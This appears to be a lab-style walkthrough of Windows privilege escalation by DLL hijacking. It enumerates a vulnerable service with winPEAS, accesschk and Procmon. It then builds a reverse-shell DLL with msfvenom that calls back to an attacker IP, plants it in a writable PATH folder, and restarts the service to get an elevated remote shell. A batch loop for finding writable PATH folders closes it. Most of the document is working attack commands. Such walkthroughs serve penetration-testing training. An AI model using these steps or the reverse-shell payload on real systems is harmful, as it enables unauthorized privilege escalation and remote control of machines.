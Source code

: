 If you have **write permissions inside a folder present on PATH** you could be able to hijack a DLL loaded by a process and **escalate privileges**.

1.Use winPEAS to enumerate non-Windows services:  
`.\winPEASany.exe quiet servicesinfo`

> 2.Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:
> 
> > [+] Checking write permissions in PATH folders (DLL Hijacking)()

`.\accesschk.exe /accepteula -uvqc user dllsvc`

3.The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:  
`sc qc dllsvc`

4.Run Procmon64.exe with administrator privileges. Press  
Ctrl+L to open the Filter menu. Check permissions of all folders inside PATH:  
5.Add a new filter on the Process Name matching  
dllhijackservice.exe.  
6.On the main screen, deselect registry activity and  
network activity.

7.Start the service:  
`> net start dllsvc`

8.Back in Procmon, note that a number of “NAME NOT  
FOUND” errors appear, associated with the hijackme.dll file.

9.At some point, Windows tries to find the file in the C:\Temp  
directory, which as we found earlier, is writable by our user.

10.On Kali, generate a reverse shell DLL named hijackme.dll:  
`# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll`

11.Copy the DLL to the Windows VM and into the C:\Temp directory. Start a istener on Kali and then stop/start the service to trigger the exploit:  
`net stop dllsvc`  
`net start dllsvc`

alternatively search :

```bash
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```